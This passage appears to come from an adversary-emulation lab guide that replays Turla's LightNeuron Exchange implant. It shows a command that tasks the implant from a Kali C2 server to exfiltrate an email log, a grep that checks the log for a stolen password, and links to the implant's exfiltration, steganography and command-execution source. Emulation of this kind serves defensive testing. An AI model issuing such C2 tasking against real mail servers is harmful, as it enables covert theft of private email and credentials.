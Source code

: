 * Send the email

:arrow_right: Return to the Kali C2 server lower terminal window. Task the LightNeuron implant to exfiltrate the email log file:
```bash
./evalsC2client.py --set-task info@nk.local '3 | 0'
```

* The file contents will be logged by the control server.
:heavy_exclamation_mark: Verify that exfil was logged by the control server by checking the terminal window with the server output or by checking the server log file. The logs should contain the password Egle sent to Zilvinas:
```bash
grep 'dfsbH%T5RWf3bwq3aeGR$3%' /opt/day2/turla/Resources/control_server/logs.txt
```

### :moyai: Source Code
* [Transport Agent](ConnectionFilteringAgent.cs)
  * [Remote Email Collection](ConnectionFilteringAgent.cs#L56)
  * [Automated Collection](ConnectionFilteringAgent.cs#L100)
  * [Email Hiding Rules](ConnectionFilteringAgent.cs#L162)
* [Companion DLL](CompanionDLL.)
  * [Check message against rule file](exdbdata.cpp#L307)
  * [Data Staging/Automated Collection](exdbdata.cpp#L196)
  * [Analyze attachment for data from C2](exdbdata.cpp#L98)
  * [Send message back to C2 server over email](exdbdata.cpp#L130)
* [Steganography](stego.cpp)
  * [Decode attachment data from base64](stego.cpp#L437)
  * [Check signature in image](stego.cpp#L136)
  * [Decrypt data in image](stego.cpp#L99)
  * [Extract task from image](stego.cpp#L302)
  * [Execute commands: Cmd ID 3](stego.cpp#L232)
  * [Execute commands: Cmd ID 5](stego.cpp#L263)
  * [Encrypt result of command in image](stego.cpp#L51)
  * [Hide result of command in image](stego.cpp#L184)
  * [Encode data in base64](stego.cpp#L499)

### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/wp-content/uploads/2019/05/ESET-LightNeuron.pdf>
